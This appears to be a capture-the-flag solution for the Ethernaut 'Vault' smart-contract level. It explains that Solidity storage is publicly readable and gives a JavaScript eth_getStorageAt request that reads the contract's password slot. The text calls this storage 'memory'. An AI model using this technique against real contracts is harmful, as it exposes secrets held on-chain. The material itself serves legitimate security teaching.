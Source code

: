 [8 - Vault](https://ethernaut.openzeppelin.com/level/0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6)

Solution: 
* memory is public in Solidity, and can be read
* first 32-bytes slot is the boolean **locked**, second 32-bytes slot is **the password**
* to get 32-bytes at memory slot 1:
```
const options = {
  method: 'POST',
  headers: {accept: 'application/json', 'content-type': 'application/json'},
  body: JSON.stringify({
    id: 1,
    jsonrpc: '2.0',
    method: 'eth_getStorageAt',
    params: ['0xa354054A71B461562745CB6ed2D53b0F55192C27', '0x01', 'latest']
  })
};

fetch('https://eth-goerli.g.alchemy.com/v2/docs-demo', options)
  .then(response => response.json())
  .then(response => console.log(response))
  .catch(err => console.error(err));
```
